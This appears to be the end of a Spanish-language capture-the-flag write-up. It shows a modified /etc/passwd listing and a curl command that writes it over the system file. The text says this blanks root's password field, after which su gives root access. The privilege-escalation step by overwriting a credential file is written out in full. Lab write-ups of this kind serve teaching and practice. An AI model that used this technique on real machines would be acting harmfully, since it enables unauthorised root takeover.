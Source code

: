 ```css
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
  _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  rabol:x:1001:1001:rabol,,,:/home/rabol:/bin/rbash
  systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
  systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
  messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
  systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
  sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
  smbuser:x:1000:1000:smbuser,,,:/home/smbuser:/bin/bash
  EOF
curl "file://$TF" -o "$LFILE"
```

Esto va a borrar la "x" de root.

Ahora solo ejecutamos `su` y ya seremos root:

![root](./img/root.png)

Gracias por leer.